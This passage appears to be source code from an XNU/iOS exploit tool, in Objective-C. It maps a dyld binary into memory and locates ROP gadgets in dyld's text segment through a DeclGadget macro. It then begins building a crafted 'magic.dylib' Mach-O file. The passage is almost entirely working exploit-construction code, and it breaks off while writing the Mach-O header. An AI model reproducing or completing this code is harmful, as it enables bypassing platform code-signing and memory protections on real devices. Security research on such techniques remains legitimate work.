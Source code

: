         struct fat_arch *arch = (struct fat_arch *)(fat_hdr + 1);
        for (int i=0; i<OSSwapInt32(fat_hdr->nfat_arch); i++)
        {
            [inputHdl seekToFileOffset:OSSwapInt32(arch->offset)];
            NSData *myData = [inputHdl readDataOfLength:OSSwapInt32(arch->size)];
            
            const uint8_t *headerc =  [myData bytes];
            uint8_t *header = mmap((void*)0x50000000, round_page([myData length]) + 0x5000000, PROT_READ|PROT_WRITE, MAP_ANON|MAP_PRIVATE|MAP_FIXED, 0, 0);
            memcpy(header, headerc, [myData length]);
            
            dump_dyld_segments(header);
            arch++;
        }
    }
    else
    {
        [inputHdl seekToFileOffset:0];
        NSData *myData = [inputHdl readDataToEndOfFile];
        const uint8_t *headerc =  [myData bytes];
        uint8_t *header = mmap((void*)0x50000000, round_page([myData length]) + 0x5000000, PROT_READ|PROT_WRITE, MAP_ANON|MAP_PRIVATE|MAP_FIXED, 0, 0);
        memcpy(header, headerc, [myData length]);
        
        dump_dyld_segments(header);
    }
}

int main(int argc, const char * argv[]) {
    
    /* mapping */
    
    uint32_t fsz = 0;
    
    NSString *dyld_path = @"./dyld";
    
    
    
    process_dyld_file(dyld_path);
    
    uintptr_t dyld_base = 0x50001001;
#define DeclGadget(name, pattern, size) uint32_t name = (uint32_t)memmem(g_text_ptr, g_text_size, (void*)pattern, size); assert(name); name -= (uint32_t)g_text_ptr; name += (uint32_t)dyld_base
    
    
    int fd=open("./magic.dylib", O_CREAT | O_RDWR | O_TRUNC, 0755);
    assert(fd > 0);
    ftruncate(fd, (0x10000000));
    char* buf = mmap(NULL, (0x10000000), PROT_READ|PROT_WRITE, MAP_SHARED, fd, 0);
    assert(buf != (void *)-1);
    
    /* write mach header */
    
    
    xnuexp_mach_o * dy = [xnuexp_mach_o withContentsOfFile:dyld_path];
    //    assert(dy.hdr->cpusubtype == mh.cpusubtype && dy.hdr->cputype == mh.cputype);
    if (!dy) {
        xnuexp_fat_mach_o  * fat_dy = [xnuexp_fat_mach_o withContentsOfFile:dyld_path];
        dy = [fat_dy getArchitectureByFirstMagicMatch:MH_MAGIC];
        assert(fat_dy && dy);
    }
